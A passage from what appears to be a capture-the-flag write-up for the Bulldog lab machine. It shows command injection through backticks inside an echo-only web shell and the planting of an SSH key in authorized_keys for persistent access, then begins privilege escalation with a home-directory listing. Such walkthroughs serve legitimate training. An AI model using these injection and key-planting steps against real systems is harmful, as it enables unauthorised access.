 And we can easily break out of the "jail" with the `echo` command:

    echo `id`
    uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Therefore we can create a directory `.ssh` inside the  django user home:

    echo `mkdir /home/django/.ssh`

And then echo our ssh public key inside (you need to change the filed size with the firefox inspector):

    echo 'ssh-rsa AAAAB3Nt/<SNIP>'> /home/django/.ssh/authorized_keys

Then we got an interactive shell with ssh:

    ssh -ldjango 10.0.2.4 -p23

## PrivEsc

By looking more into the users directory we discover that we have a read access on djangoadmin
files and that a `.hiddenadmindirectory` is present with a note and an executable:

    django@bulldog:~$ ls -ahlR /home
    /home:
    total 16K
    drwxr-xr-x  4 root         root         4.0K Aug 24 18:16 .
    drwxr-xr-x 24 root         root         4.0K Aug 25 22:07 ..
    drwxr-xr-x  5 bulldogadmin bulldogadmin 4.0K Sep 20 19:45 bulldogadmin
    drwxr-xr-x  6 django       django       4.0K Nov  9 09:43 django

    /home/bulldogadmin:
    total 40K
    drwxr-xr-x 5 bulldogadmin bulldogadmin 4.0K Sep 20 19:45 .
    drwxr-xr-x 4 root         root         4.0K Aug 24 18:16 ..
    -rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 17:39 .bash_logout
    -rw-r--r-- 1 bulldogadmin bulldogadmin 3.7K Aug 24 17:39 .bashrc
    drwx------ 2 bulldogadmin bulldogadmin 4.0K Aug 24 17:40 .cache
    drwxrwxr-x 2 bulldogadmin bulldogadmin 4.0K Sep 20 19:44 .hiddenadmindirectory
    drwxrwxr-x 2 bulldogadmin bulldogadmin 4.0K Aug 24 22:18 .nano
    -rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 17:39 .profile
    -rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 24 22:18 .selected_editor
    -rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 17:45 .sudo_as_admin_successful
    -rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 18:20 .wget-hsts
    ls: cannot open directory '/home/bulldogadmin/.cache': Permission denied

    /home/bulldogadmin/.hiddenadmindirectory:
    total 24K
    drwxrwxr-x 2 bulldogadmin bulldogadmin 4.0K Sep 20 19:44 .
    drwxr-xr-x 5 bulldogadmin bulldogadmin 4.0K Sep 20 19:45 ..
    -rw-r--r-- 1 bulldogadmin bulldogadmin 8.6K Aug 25 22:18 customPermissionApp
    -rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 20 19:44 note


### Reverse

